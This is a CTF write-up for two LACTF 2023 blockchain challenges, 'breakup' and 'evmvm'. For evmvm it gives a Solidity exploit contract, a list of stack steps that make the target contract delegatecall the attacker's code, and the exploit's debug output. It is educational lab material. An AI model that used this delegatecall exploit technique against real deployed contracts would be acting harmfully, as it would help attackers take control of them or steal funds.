 # LACTF 20233 - Blockchain Writeups
## breakup

For this challenge you just need to delete the name "You" from `friendNames` mapping of `Friend` contract. Solution is use the `burn` function since `tokenId` is easy to 
get just from reading the source
[solve.py](https://github.com/m1dm4n/CTF-WriteUp/blob/main/2023/lactf/breakup/solve.py)

## evmvm

This challenge is harder since you need to understand how the solidity work in lower level of Solidy language (like assembly). The main contract requires the sender of who ever want to solve it is its deployed contract `EVMVM`. It means that we need to make the deployed `EVMVM` contract call the function `solve` of `Setup` contract to win.

![image](https://user-images.githubusercontent.com/92845822/218942091-143e4300-bffc-4543-952e-3c46f37838dd.png)

So our target will be the "EVMVM" contract, which have a function to executes a single opcode every times we send to it. This problem leads to a thing that we cannot use the memory of contract because memory is like RAM, the function end the ram clean. This is really a pain since if we want to make a call a function of another contract, we need a calldata contains singnature of function we want to call but look at this first.

![image](https://user-images.githubusercontent.com/92845822/218943394-cb6c4195-023c-4dc8-ad29-031a31d41efd.png)

![image](https://user-images.githubusercontent.com/92845822/218943728-17b8208e-ef0e-4ec3-ba61-3135b8c2cc4e.png)

The call opcode requires the offset of calldata in memory and this offset is got from `stack`. We can save anything we want to the memory easily using `mstore` opcode but in the next calling it just disappear. I had been stuck from this step so i just do some guessing method but it didn't work because i'm still very new to blockchain. After the ctf ends, i learned that `delegatecall` is our solution. [What is DelegateCall in solidity](https://medium.com/coinmonks/delegatecall-calling-another-contract-function-in-solidity-b579f804178c)

Basicly the `delegatecall` is something like this: 

> When contract A executes delegatecall to contract B , B's code is executed. with contract A's storage, `msg.sender` and `msg.value`.

With this, we can create our malicious contract that will make a call to `Solve` contract and then make `EVMVM` contract create a `delegatecall` to our contract. Our contract:

```solidity
contract Exploit {
    address immutable setup;

    constructor(address _setup) {
        setup = _setup;
    }
    fallback() external {
        setup.call(abi.encodeWithSignature("solve()"));
    }
}
```

> `fallback` is the function that will be called when the contract don't understand the signature function of when it's empty 

The harder thing is done, other part is just stack knowledge and programming skill. My solution is:

1. Push `36` to stack because the function still have a parameter `arg` and its index is 36 in the `calldata` we send to contract (the first 4 bytes is function signature and the next 32 bytes is the `opcode` parameter)
2. Now we can use `CALLDATALOAD` opcode to push anything we want to stack from `arg` param so just push all parameters of `DELEGATECALL`: `gas, address, 0, 0, 0, 0` (Read the document of its).
3. Send the opcode of `DELEGATECALL` and we are done!

> note1: the leftmost is the highest value in stack
> note2: `address` is our deployed contract

| Opcode name | Stack  |
| :---:       | :---- |
| CALLVALUE    | 0 |
| ISZERO       | 1 |
| DUP1         | 1 1 |
| SHL          | 2 |
| DUP1         | 2 2 |
| CALLDATASIZE | 68 2 2 |
| SWAP1        | 2 68 2 |
| DIV          | 34 2 |
| ADD          | 36 |
| DUP1         | 36 36 |
| CALLDATALOAD | gas 36 |
| SWAP1        | 36 gas |
| CALLDATALOAD | `address` `gas` |
| CALLVALUE    | 0 `address` `gas` |
| CALLVALUE    | 0 0 `address` `gas` |
| CALLVALUE    | 0 0 0 `address` `gas` |
| CALLVALUE    | 0 0 0 0 `address` `gas` |

Then sending the opcode of `delegatecall` and we are done. Output:

```python
[+] Pushing delegatecall's params to stack: Done
[DEBUG] stack size: 6
[DEBUG] 0x0 : 0x00000000000000000000000000000000000000000000000000000000000186a0
[DEBUG] 0x1 : 0x0000000000000000000000007ee24f4f9d8f0d6f5321228ebb0529422b0e813a
[DEBUG] 0x2 : 0x0000000000000000000000000000000000000000000000000000000000000000
[DEBUG] 0x3 : 0x0000000000000000000000000000000000000000000000000000000000000000
[DEBUG] 0x4 : 0x0000000000000000000000000000000000000000000000000000000000000000
[DEBUG] 0x5 : 0x0000000000000000000000000000000000000000000000000000000000000000
[*] Setup.functions.isSolved().call() = True
[+] Successfully exploiting!
```

My script: [solve.py](https://github.com/m1dm4n/CTF-WriteUp/blob/main/2023/lactf/evmvm/solve.py)
